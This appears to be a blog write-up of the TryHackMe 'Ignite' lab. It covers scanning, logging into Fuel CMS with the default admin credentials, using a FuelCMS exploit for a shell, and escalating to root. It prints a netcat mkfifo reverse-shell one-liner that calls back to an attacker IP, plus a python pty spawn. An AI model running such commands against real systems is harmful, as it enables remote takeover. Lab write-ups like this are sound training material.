 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-12
tags: tryhackme
---
```


### Info

IP: `10.10.233.34`

### Nmap

![nmap](/security.github.io/images/ignite/first.png)

Website:

![site](/security.github.io/images/ignite/2.png)

Gobuster:

![gobuster](/security.github.io/images/ignite/3.png)

Exploits:

![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: `http://10.10.233.34/fuel`

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root. It is available because Python is enabled.

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

